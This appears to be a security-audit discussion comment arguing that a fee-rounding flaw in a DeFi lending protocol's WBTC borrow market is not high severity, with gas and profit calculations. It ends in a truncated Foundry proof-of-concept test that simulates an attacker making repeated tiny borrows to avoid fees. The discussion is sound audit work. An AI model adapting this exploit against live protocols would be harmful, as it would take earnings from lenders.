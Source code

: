 **0x73696d616f**

Agree that this can not be a high as it is not profitable and it has a very significant number of pre conditions. It is borderline low/medium, but I agree the protocol should always protect itself.

It spends approximately 474883 gas for each borrow (see POC below), which when doing `20_000` times, is `474883*20_000*1e-9 = 9.5 Gwei`, at a gas price of `0.00405` is `9.5*0.00405 = 0.0038 ETH`, which at current 3100 USD / ETH is `11.78` USD.

Now, the attacker in the POC goes from `0.038` WBTC of loan and repays only `0.03786283` WBTC. The difference is `0.00013717`, not `0.001` as @santipu03 mentions. When bitcoin is at a price of 67000, this is `8.2` USD.

So we have settled that this is not profitable. However, it is even worse for the attacker because:
1. Other users will frontrun borrows or worse, the repayment, and steal the fee from the attacker, making him take the loss. Keep in mind that this attack would be sustained for more than 10 minutes so it is likely users will slip in some transactions in between.
2. For this attack to work, it requires having `floatingBackupBorrowed > 0` when borrowing / repaying, which is another pre condition.
3. The gas cost was assumed to be only `474883*20_000`, which is missing the fact that multiple transactions have to be sent and this would significantly increase gas costs.
4. This attack requires 9497660000 gas or `9497660000 / 30e6 = 316` blocks. I highly doubt gas prices would remain so low after filling 316 blocks. And it's likely Optimism would do something about it as it means the network would be congested for more than 10 minutes.

Given all these conditions and the fact that it is not profitable at current prices, this can never be awared a high severity.

```solidity
function test_steal_unassigned_earnings() public {
    vm.rollFork(119348257); // Abr 28
    uint256 maturity = 1722470400; // Aug 01
    uint256 liquidity = 100_000e6;
    uint256 borrowAmount = 1e8;

    // Simulate some fixed rate borrows on the WBTC market
    deal(address(usdc), address(this), liquidity);
    usdc.approve(address(marketUSDC), liquidity);
    marketUSDC.deposit(liquidity, address(this));
    marketUSDC.auditor().enterMarket(marketUSDC);
    marketWBTC.borrowAtMaturity(
        maturity,
        borrowAmount,
        type(uint256).max,
        address(this),
        address(this)
    );

    // Attacker deposits liquidity and borrows from the same pool
    address attacker = makeAddr("attacker");
    vm.startPrank(attacker);
    deal(address(wbtc), attacker, 1e8);
    wbtc.approve(address(marketWBTC), type(uint256).max);
    marketWBTC.deposit(1e8, attacker);

    // Attacker borrows a tiny amount to round the fee to 0
    // Doing it lots of times you end up with a big loan with a fee of 0
    //for (uint i = 0; i < 20_000; i++) {
    uint256 initialGas = gasleft(); //
    marketWBTC.borrowAtMaturity(
        maturity,
        0.038e8,
        type(uint256).max,
        attacker,
        attacker
    );
```